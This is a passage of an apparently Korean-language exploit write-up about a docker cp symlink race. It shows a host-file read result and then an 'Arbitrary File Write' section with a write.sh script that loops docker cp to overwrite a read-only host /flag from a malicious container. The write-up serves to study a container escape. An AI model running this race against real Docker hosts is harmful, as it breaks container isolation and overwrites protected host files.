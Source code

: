 ![read](/img/readimage.png)

도커 컨테이너 내부에 위치한 /flag파일을 로컬로 읽어드린다. 



<h4>Exploit - Arbitrary File Write</h4>

이번에는 파일에 글을 작성해보자. 원리는 동일하다. 

```shell
$ echo "Host File Unchanged" | sudo tee /flag
Host File Unchanged
$ sudo chmod 0444 /flag
$ echo "Host File Changed" > /flag 
bash: /flag: Permission denied
```

이번의 목표는 호스트 로컬의 파일인 `/flag`에 Host File Unchanged를 적는 것이다. 

이번에는 write.sh를 보자.

```sh
#!/bin/sh

# dockerfile과 symlin_swap.c로 poc라는 이름의 이미지를 생성 및 도커 컨테이너 실행
docker build -t poc .
container_id=$(docker run --rm -d poc)

echo "Host File Changed" > localpath

# 이제 계속 파일을 작성하기 위한 공격 시도
i=0
while [ $i -lt 500 ]
do
# 이게 핵심.. 로컬에 위치한 파일을 컨테이너 내부의  /totally_safe_path/flag으로 복사하는 명령어. 성공한다면 해당 파일에 로컬 파일의 내용인, Host File Changed가 적힐 것이다.
	docker cp localpath "${container_id}:/totally_safe_path/flag"
	i=$(($i + 1))
done
```